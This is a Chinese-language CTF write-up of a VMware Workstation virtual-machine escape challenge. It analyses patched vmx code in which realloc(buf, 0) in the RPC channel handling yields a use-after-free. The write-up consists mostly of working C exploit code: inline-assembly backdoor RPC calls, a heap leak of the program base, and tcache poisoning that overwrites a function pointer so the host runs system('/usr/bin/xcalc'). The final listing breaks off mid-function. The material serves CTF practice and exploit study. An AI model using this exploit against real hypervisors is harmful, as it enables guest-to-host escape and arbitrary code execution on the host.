






# 环境搭建

* 宿主机/虚拟机OS：Ubuntu18.04（kernel 4.15.0-213-generic）
* vmware安装包：[VMware-Workstation-Full-15.1.0-13591040.x86_64.bundle](https://download3.vmware.com/software/wkst/file/VMware-Workstation-Full-15.1.0-13591040.x86_64.bundle)

# 题目分析

根据diff信息，一共patch了三处。

一是将`jz 0x189948`直接改成`jmp 0x189948`，跳过了`channel_set_len`时对`channel->state != 1`的检查：





二是将`ja 0x189BCE`改成`jnb 0x189BCE`，重新`channel_set_len`时大小相同也会进入分支调用`realloc`重新申请`channel->cmd_buf`：



三是将`jz 0x189D13`改为`jz 0x18997A`，`realloc`申请失败也会重新设置`channel->cmd_remain/cmd_len`，且不会更改原来的`channel->cmd_buf`指针：





此外`size`改成了取低俩个字节，绕过了`cmd_len > 0x10000`的限制，当`cmd_len = 0xffff`时`size = (cmd_len+1)&0xffff = 0`：

> 一开始只看patch之前的vmx，没发现这点，后来卡在将size构造为0的时候，去观察patch之后的vmx才注意到\_(:з)∠)\_



众所周知，`realloc(buf, 0)`等于`free`，所以这里其实就是构造了一个UAF。

# 利用过程

## leak

最开始的思路是用`chan[0]->cmd_buf`申请一个0x100 chunk，释放后用`chan[1]->reply_buf`申请回来，重复释放后再借助"vmx.capability.dnd_version"指令的结构体占用chunk写入程序地址，之后`chan[1]->reply_buf`返回给用户完成泄露。

但是实际操作过程中遇到了两个卡点：

1. `chan[0]->cmd_buf`释放后会被其他结构占用，而`chan[1]->reply_buf`申请到的刚好是0x100 tcachebin中的下一个chunk。
   于是这里我用`chan[3]->cmd_buf`多申请了一个0x100 chunk，依次释放`chan[0]->cmd_buf`和`chan[3]->cmd_buf`，从而使`chan[1]->reply_buf`占用到`chan[0]->cmd_buf`；
2. 重复释放`chan[0]->cmd_buf`时0x100 tcachebin已满，故其被加入到unsortedbin中去了，"vmx.capability.dnd_version"指令申请的结构体并未占用到该chunk。
   于是这里我用`chan[3]->cmd_buf`再次申请了一个0x100 chunk，此时会清空0x100 tcachebin，里面会只剩下释放的`chan[0]->cmd_buf`（不太清楚为啥，但是调试完就是可以\_(:з)∠)\_），此时"vmx.capability.dnd_version"指令就能够申请到了。

```c {hide=true}
uint64_t elf_base = 0;

void leak() {
    struct channel chan[8] = { 0, };
    char *cmd = NULL;
    int res = 0, len = 0;
    char *data = NULL;

    for (size_t i = 0; i < 4; i++)
        channel_open(&chan[i].cookie1, &chan[i].cookie2, &chan[i].num, &res);

    // 'A'*0xe8
    run_cmd("info-set guestinfo.a AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA");
    run_cmd("tools.capability.dnd_version 4");

    /* chan[0/3]: alloc 0x100 chunk */
    channel_set_len(chan[0].cookie1, chan[0].cookie2, chan[0].num, 0xf0, &res);
    channel_set_len(chan[3].cookie1, chan[3].cookie2, chan[3].num, 0xf0, &res);

    /* chan[1]: prepare to alloc 0x100 chunk */
    cmd = "info-get guestinfo.a";
    channel_set_len(chan[1].cookie1, chan[1].cookie2, chan[1].num, strlen(cmd), &res);
    channel_send_data(chan[1].cookie1, chan[1].cookie2, chan[1].num, strlen(cmd)-4, "info-get guestin", &res); // except last 4 byets
    printf("chan[1]: channel_send_data: %s\n", "info-get guestin");

    /* chan[0/3]: free 0x100 chunk */
    // printf("b *$rebase(0x0000000000189BD6)\n");
    // getchar();
    channel_set_len(chan[0].cookie1, chan[0].cookie2, chan[0].num, 0xffff, &res); // alloced by chan[1]->reply_buf
    channel_set_len(chan[3].cookie1, chan[3].cookie2, chan[3].num, 0xffff, &res);
    printf("chan[0/3]: channel_set_len: 0x%lx\n", 0xffff);

    /* chan[1]: alloc 0x100 chunk */
    // printf("watch *(uint64_t *)$rebase(0xfe9758)");
    // getchar();
    channel_send_data(chan[1].cookie1, chan[1].cookie2, chan[1].num, 4, "fo.a", &res); // send last 4 byets
    printf("chan[1]: channel_send_data: %s\n", "fo.a");

    /* chan[2]: run_cmd("vmx.capability.dnd_version"); */
    cmd = "vmx.capability.dnd_version";
    channel_set_len(chan[2].cookie1, chan[2].cookie2, chan[2].num, strlen(cmd), &res);

    /* chan[0]: free 0x100 chunk again */
    // printf("b *$rebase(0x00000000001691AB)\n");
    // getchar();    
    channel_set_len(chan[0].cookie1, chan[0].cookie2, chan[0].num, 0xffff, &res);
    printf("chan[0]: channel_set_len: 0x%lx\n", 0xffff);
    
    /* chan[3]: clean 0x100 tcache */
    channel_set_len(chan[3].cookie1, chan[3].cookie2, chan[3].num, 0xf0, &res);
    printf("chan[3]: channel_set_len: 0x%lx\n", 0xf0);

    /* overwrite 0x100 chunk */
    channel_send_data(chan[2].cookie1, chan[2].cookie2, chan[2].num, strlen(cmd), cmd, &res);
    printf("chan[2]: channel_send_data: %s\n", cmd);

    /* chan[1]: leak 0x100 chunk data */
    channel_recv_reply_len(chan[1].cookie1, chan[1].cookie2, chan[1].num, &len, &res);
    printf("chan[1]: channel_recv_reply_len: %d\n", len);

    data = malloc(len+0x10);
    memset(data, 0, len+0x10);
    for(int i = 0; i < len; i += 4) {
        channel_recv_data(chan[1].cookie1, chan[1].cookie2, chan[1].num, i, data, &res);
    }
    //hex_dump64(data, len);
    elf_base = ((uint64_t *)data)[0] - 0xf819b0;
    printf("[+] elf base: %p\n", elf_base);

    /* close chan[0] */
    channel_set_len(chan[0].cookie1, chan[0].cookie2, chan[0].num, 1, &res);
    channel_send_data(chan[0].cookie1, chan[0].cookie2, chan[0].num, 1, "B", &res);
    channel_close(chan[0].cookie1, chan[0].cookie2, chan[0].num, &res);

    /* close chan[2] */
    channel_recv_reply_len(chan[2].cookie1, chan[2].cookie2, chan[2].num, &len, &res);
    memset(data, 0, len+0x10);
    for(int i = 0; i < len; i += 4) {
        channel_recv_data(chan[2].cookie1, chan[2].cookie2, chan[2].num, i, data, &res);
    }
    channel_recv_finish(chan[2].cookie1, chan[2].cookie2, chan[2].num, &res);
    channel_close(chan[2].cookie1, chan[2].cookie2, chan[2].num, &res);

    /* close chan[3] */
    channel_send_data(chan[3].cookie1, chan[3].cookie2, chan[3].num, 1, "B", &res);
    channel_close(chan[3].cookie1, chan[3].cookie2, chan[3].num, &res);

    free(data);
}
```


## exploit

用UAF覆写一个程序内会被调用的函数指针完成利用。

这里使用的是ubuntu18.04的虚拟机，libc版本为2.27，tcache没有safe-unlinking防护，直接修改tcache bin指针即可（这里我用0x90的tcache bin）。

还是利用执行`channel_open`时会调用`(protocol_list[0].open_channel_fn)(protocol_list[0].open_channel_param)`，详细原理及过程同[RWCTF2018 Final Station - Escape](https://artoriahotaru.github.io/hotaru_blog/ctfs/rwctf2018final-escape/#exploit)，这里不再重复赘述。

```c {hide=true}
void exploit() {
    struct channel chan[8] = { 0, };
    char *cmd = NULL;
    int res = 0;

    for (size_t i = 0; i < 4; i++)
        channel_open(&chan[i].cookie1, &chan[i].cookie2, &chan[i].num, &res);

    uint64_t param_buf = elf_base + 0xFE95A0 - 0x18;
    uint64_t target_fn = elf_base + 0xFE95A0 + 0x8;
    uint64_t target_param = elf_base + 0xFE95A0 + 0x10;
    uint64_t system_plt = elf_base + 0x00000000000ECFE0;
    char *param = "/usr/bin/xcalc";
    
    /* chan[0]: alloc chunk */
    channel_set_len(chan[0].cookie1, chan[0].cookie2, chan[0].num, 0x80, &res);

    /* chan[0]: free chunk */
    channel_set_len(chan[0].cookie1, chan[0].cookie2, chan[0].num, 0xffff, &res);

    /* chan[1]: alloc chunk */
    channel_set_len(chan[1].cookie1, chan[1].cookie2, chan[1].num, 0x80, &res);

    /* chan[0]: free chunk again */
    channel_set_len(chan[0].cookie1, chan[0].cookie2, chan[0].num, 0xffff, &res);

    /* chain[1]: fake tcachebin next*/
    // printf("b *$rebase(0x000000000018960C)");
    // getchar();
    channel_send_data(chan[1].cookie1, chan[1].cookie2, chan[1].num, 8, (char *)&param_buf, &res);

    /* chan[2/3]: alloc target buf */
    channel_set_len(chan[2].cookie1, chan[2].cookie2, chan[2].num, 0x80, &res);
    channel_set_len(chan[3].cookie1, chan[3].cookie2, chan[3].num, 0x80, &res);

    /* chan[3]: overwrite target_fn & target_param */
    uint64_t payload[0x80/8] = { 0,};
    memcpy((char *)payload, param, strlen(param)+1);
    payload[3] = 0x4943505200000001;
    payload[4] = system_plt;
    payload[5] = param_buf;
    channel_send_data(chan[3].cookie1, chan[3].cookie2, chan[3].num, 8*6, (char *)payload, &res);

    printf("[+] execute %s\n", param);
    channel_open(&chan[4].cookie1, &chan[4].cookie2, &chan[4].num, &res);
}
```


# Exp

```c
#include <stdio.h>
#include <stdlib.h>
#include <stdint.h>
#include <string.h>

void channel_open(int *cookie1,int *cookie2,int *channel_num,int *res){
    asm("movl %%eax,%%ebx\n\t"
        "movq %%rdi,%%r10\n\t"
        "movq %%rsi,%%r11\n\t"
        "movq %%rdx,%%r12\n\t"
        "movq %%rcx,%%r13\n\t"
        "movl $0x564d5868,%%eax\n\t"
        "movl $0xc9435052,%%ebx\n\t"
        "movl $0x1e,%%ecx\n\t"
        "movl $0x5658,%%edx\n\t"
        "out %%eax,%%dx\n\t"
        "movl %%edi,(%%r10)\n\t"
        "movl %%esi,(%%r11)\n\t"
        "movl %%edx,(%%r12)\n\t"
        "movl %%ecx,(%%r13)\n\t"
        :
        :
        :"%rax","%rbx","%rcx","%rdx","%rsi","%rdi","%r8","%r10","%r11","%r12","%r13"
       );
}

void channel_set_len(int cookie1,int cookie2,int channel_num,int len,int *res){
    asm("movl %%eax,%%ebx\n\t"
        "movq %%r8,%%r10\n\t"
        "movl %%ecx,%%ebx\n\t"
        "movl $0x564d5868,%%eax\n\t"
        "movl $0x0001001e,%%ecx\n\t"
        "movw $0x5658,%%dx\n\t"
        "out %%eax,%%dx\n\t"
        "movl %%ecx,(%%r10)\n\t"
        :
        :
        :"%rax","%rbx","%rcx","%rdx","%rsi","%rdi","%r10"
       );
}

void channel_send_data(int cookie1,int cookie2,int channel_num,int len,char *data,int *res){
    asm("pushq %%rbp\n\t"
        "movq %%r9,%%r10\n\t"
        "movq %%r8,%%rbp\n\t"
        "movq %%rcx,%%r11\n\t"
        "movq $0,%%r12\n\t"
        "1:\n\t"
        "movq %%r8,%%rbp\n\t"
        "add %%r12,%%rbp\n\t"
        "movl (%%rbp),%%ebx\n\t"
        "movl $0x564d5868,%%eax\n\t"
        "movl $0x0002001e,%%ecx\n\t"
        "movw $0x5658,%%dx\n\t"
        "out %%eax,%%dx\n\t"
        "addq $4,%%r12\n\t"
        "cmpq %%r12,%%r11\n\t"
        "ja 1b\n\t"
        "movl %%ecx,(%%r10)\n\t"
        "popq %%rbp\n\t"
        :
        :
        :"%rax","%rbx","%rcx","%rdx","%rsi","%rdi","%r10","%r11","%r12"
        );
}

void channel_recv_reply_len(int cookie1,int cookie2,int channel_num,int *len,int *res){
    asm("movl %%eax,%%ebx\n\t"
        "movq %%r8,%%r10\n\t"
        "movq %%rcx,%%r11\n\t"
        "movl $0x564d5868,%%eax\n\t"
        "movl $0x0003001e,%%ecx\n\t"
        "movw $0x5658,%%dx\n\t"
        "out %%eax,%%dx\n\t"
        "movl %%ecx,(%%r10)\n\t"
        "movl %%ebx,(%%r11)\n\t"
        :
        :
        :"%rax","%rbx","%rcx","%rdx","%rsi","%rdi","%r10","%r11"
       );

}

void channel_recv_data(int cookie1,int cookie2,int channel_num,int offset,char *data,int *res){
    asm("pushq %%rbp\n\t"
        "movq %%r9,%%r10\n\t"
        "movq %%r8,%%rbp\n\t"
        "movq %%rcx,%%r11\n\t"
        "movq $1,%%rbx\n\t"
        "movl $0x564d5868,%%eax\n\t"
        "movl $0x0004001e,%%ecx\n\t"
        "movw $0x5658,%%dx\n\t"
        "in %%dx,%%eax\n\t"
        "add %%r11,%%rbp\n\t"
        "movl %%ebx,(%%rbp)\n\t"
        "movl %%ecx,(%%r10)\n\t"
        "popq %%rbp\n\t"
        :
        :
        :"%rax","%rbx","%rcx","%rdx","%rsi","%rdi","%r10","%r11","%r12"
       );
}

void channel_recv_finish(int cookie1,int cookie2,int channel_num,int *res){
    asm("movl %%eax,%%ebx\n\t"
        "movq %%rcx,%%r10\n\t"
        "movq $0x1,%%rbx\n\t"
        "movl $0x564d5868,%%eax\n\t"
        "movl $0x0005001e,%%ecx\n\t"
        "movw $0x5658,%%dx\n\t"
        "out %%eax,%%dx\n\t"
        "movl %%ecx,(%%r10)\n\t"
        :
        :
        :"%rax","%rbx","%rcx","%rdx","%rsi","%rdi","%r10"
       );
}

void channel_recv_finish21(int cookie1,int cookie2,int channel_num,int *res){
    asm("movl %%eax,%%ebx\n\t"
        "movq %%rcx,%%r10\n\t"
        "movq $0x21,%%rbx\n\t"
        "movl $0x564d5868,%%eax\n\t"
        "movl $0x0005001e,%%ecx\n\t"
        "movw $0x5658,%%dx\n\t"
        "out %%eax,%%dx\n\t"
        "movl %%ecx,(%%r10)\n\t"
        :
        :
        :"%rax","%rbx","%rcx","%rdx","%rsi","%rdi","%r10"
       );
}

void channel_close(int cookie1,int cookie2,int channel_num,int *res){
    asm("movl %%eax,%%ebx\n\t"
        "movq %%rcx,%%r10\n\t"
        "movl $0x564d5868,%%eax\n\t"
        "movl $0x0006001e,%%ecx\n\t"
        "movw $0x5658,%%dx\n\t"
        "out %%eax,%%dx\n\t"
        "movl %%ecx,(%%r10)\n\t"
        :
        :
        :"%rax","%rbx","%rcx","%rdx","%rsi","%rdi","%r10"
       );
}

struct channel{
    int cookie1;
    int cookie2;
    int num;
};

void run_cmd(char *cmd) {
    struct channel tmp = { 0, };
    int res = 0, len = 0;
    char *data = NULL;

    channel_open(&tmp.cookie1, &tmp.cookie2, &tmp.num, &res);
    if(!res) {
        printf("fail to open channel!\n");
        return;
    }
    channel_set_len(tmp.cookie1, tmp.cookie2, tmp.num, strlen(cmd), &res);
    if(!res) {
        printf("fail to set len\n");
        return;
    }
    channel_send_data(tmp.cookie1, tmp.cookie2, tmp.num, strlen(cmd)+0x10, cmd, &res);

    channel_recv_reply_len(tmp.cookie1, tmp.cookie2, tmp.num, &len, &res);
    if(!res) {
        printf("fail to recv data len\n");
        return;
    }
    printf("recv len: %d\n", len);

    data = malloc(len+0x10);
    memset(data, 0, len+0x10);
    for(int i = 0; i < len+0x10; i += 4) {
        channel_recv_data(tmp.cookie1, tmp.cookie2, tmp.num, i, data, &res);
    }
    printf("recv data: %s\n",data);

    channel_recv_finish(tmp.cookie1, tmp.cookie2, tmp.num, &res);
    if(!res) {
        printf("fail to recv finish\n");
    }

    channel_close(tmp.cookie1, tmp.cookie2, tmp.num, &res);
    if(!res) {
        printf("fail to close channel\n");
        return;
    }
}

void hex_dump64(void* buf, size_t len) {
    uint64_t *p = (uint64_t *)buf;
    uint8_t *end = (uint8_t *)buf + len;

    puts("=====================================");
    if (len >= 0x10) {
        for (; (uint8_t *)(p+2) <= end; p+=2) {
            printf("0x%016lx 0x%016lx\n", p[0], p[1]);
        }
    }
    if (len % 0x10 >= 8) {
        printf("0x%016lx ", p[0]);
        if (len % 0x10 == 8) {
            putchar('\n');
            return;
        }
        p += 1;
    }
    if (len % 8 > 0) {
        uint64_t tmp = 0;
        for (size_t i = len % 8; i > 0; i--) {
            tmp |= p[i];
            tmp <<= 8;
        }
        printf("0x%016lx\n", tmp);
    }
    puts("=====================================");
}

uint64_t elf_base = 0;

void leak() {
    struct channel chan[8] = { 0, };
    char *cmd = NULL;
    int res = 0, len = 0;
    char *data = NULL;

    for (size_t i = 0; i < 4; i++)
        channel_open(&chan[i].cookie1, &chan[i].cookie2, &chan[i].num, &res);

    // 'A'*0xe8
    run_cmd("info-set guestinfo.a AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA");
    run_cmd("tools.capability.dnd_version 4");

    /* chan[0/3]: alloc 0x100 chunk */
    channel_set_len(chan[0].cookie1, chan[0].cookie2, chan[0].num, 0xf0, &res);
    channel_set_len(chan[3].cookie1, chan[3].cookie2, chan[3].num, 0xf0, &res);

    /* chan[1]: prepare to alloc 0x100 chunk */
    cmd = "info-get guestinfo.a";
    channel_set_len(chan[1].cookie1, chan[1].cookie2, chan[1].num, strlen(cmd), &res);
    channel_send_data(chan[1].cookie1, chan[1].cookie2, chan[1].num, strlen(cmd)-4, "info-get guestin", &res); // except last 4 byets
    printf("chan[1]: channel_send_data: %s\n", "info-get guestin");

    /* chan[0/3]: free 0x100 chunk */
    // printf("b *$rebase(0x0000000000189BD6)\n");
    // getchar();
    channel_set_len(chan[0].cookie1, chan[0].cookie2, chan[0].num, 0xffff, &res); // alloced by chan[1]->reply_buf
    channel_set_len(chan[3].cookie1, chan[3].cookie2, chan[3].num, 0xffff, &res);
    printf("chan[0/3]: channel_set_len: 0x%lx\n", 0xffff);

    /* chan[1]: alloc 0x100 chunk */
    // printf("watch *(uint64_t *)$rebase(0xfe9758)");
    // getchar();
    channel_send_data(chan[1].cookie1, chan[1].cookie2, chan[1].num, 4, "fo.a", &res); // send last 4 byets
    printf("chan[1]: channel_send_data: %s\n", "fo.a");

    /* chan[2]: run_cmd("vmx.capability.dnd_version"); */
    cmd = "vmx.capability.dnd_version";
    channel_set_len(chan[2].cookie1, chan[2].cookie2, chan[2].num, strlen(cmd), &res);

    /* chan[0]: free 0x100 chunk again */
    // printf("b *$rebase(0x00000000001691AB)\n");
    // getchar();    
    channel_set_len(chan[0].cookie1, chan[0].cookie2, chan[0].num, 0xffff, &res);
    printf("chan[0]: channel_set_len: 0x%lx\n", 0xffff);
    
    /* chan[3]: clean 0x100 tcache */
    channel_set_len(chan[3].cookie1, chan[3].cookie2, chan[3].num, 0xf0, &res);
    printf("chan[3]: channel_set_len: 0x%lx\n", 0xf0);

    /* overwrite 0x100 chunk */
    channel_send_data(chan[2].cookie1, chan[2].cookie2, chan[2].num, strlen(cmd), cmd, &res);
    printf("chan[2]: channel_send_data: %s\n", cmd);

    /* chan[1]: leak 0x100 chunk data */
    channel_recv_reply_len(chan[1].cookie1, chan[1].cookie2, chan[1].num, &len, &res);
    printf("chan[1]: channel_recv_reply_len: %d\n", len);

    data = malloc(len+0x10);
    memset(data, 0, len+0x10);
    for(int i = 0; i < len; i += 4) {
        channel_recv_data(chan[1].cookie1, chan[1].cookie2, chan[1].num, i, data, &res);
    }
    //hex_dump64(data, len);
    elf_base = ((uint64_t *)data)[0] - 0xf819b0;
    printf("[+] elf base: %p\n", elf_base);

    /* close chan[0] */
    channel_set_len(chan[0].cookie1, chan[0].cookie2, chan[0].num, 1, &res);
    channel_send_data(chan[0].cookie1, chan[0].cookie2, chan[0].num, 1, "B", &res);
    channel_close(chan[0].cookie1, chan[0].cookie2, chan[0].num, &res);

    /* close chan[2] */
    channel_recv_reply_len(chan[2].cookie1, chan[2].cookie2, chan[2].num, &len, &res);
    memset(data, 0, len+0x10);
    for(int i = 0; i < len; i += 4) {
        channel_recv_data(chan[2].cookie1, chan[2].cookie2, chan[2].num, i, data, &res);
    }
    channel_recv_finish(chan[2].cookie1, chan[2].cookie2, chan[2].num, &res);
    channel_close(chan[2].cookie1, chan[2].cookie2, chan[2].num, &res);

    /* close chan[3] */
    channel_send_data(chan[3].cookie1, chan[3].cookie2, chan[3].num, 1, "B", &res);
    channel_close(chan[3].cookie1, chan[3].cookie2, chan[3].num, &res);

    free(data);
}

void exploit() {
    struct channel chan[8] = { 0, };
    char *cmd = NULL;
    int res = 0;

    for (size_t i = 0; i < 4; i++)
        channel_open(&chan[i].cookie1, &chan[i].cookie2, &chan[i].num, &res);

    uint64_t param_buf = elf_base + 0xFE95A0 - 0x18;
    uint64_t target_fn = elf_base + 0xFE95A0 + 0x8;
    uint64_t target_param = elf_base + 0xFE95A0 + 0x10;
    uint64_t system_plt = elf_base + 0x00000000000ECFE0;
    char *param = "/usr/bin/xcalc";
    
    /* chan[0]: alloc chunk */
    channel_set_len(chan[0].cookie1, chan[0].cookie2, chan[0].num, 0x80, &res);

    /* chan[0]: free chunk */
    channel_set_len(chan[0].cookie1, chan[0].cookie2, chan[0].num, 0xffff, &res);

    /* chan[1]: alloc chunk */
    channel_set_len(chan[1].cookie1, chan[1].cookie2, chan[1].num, 0x80, &res);

    /* chan[0]: free chunk again */
    channel_set_len(chan[0].cookie1, chan[0].cookie2, chan[0].num, 0xffff, &res);

    /* chain[1]: fake tcachebin next*/
    // printf("b *$rebase(0x000000000018960C)");
    // getchar();
    channel_send_data(chan[1].cookie1, chan[1].cookie2, chan[1].num, 8, (char *)&param_buf, &res);

    /* chan[2/3]: alloc target buf */
    channel_set_len(chan[2].cookie1, chan[2].cookie2, chan[2].num, 0x80, &res);
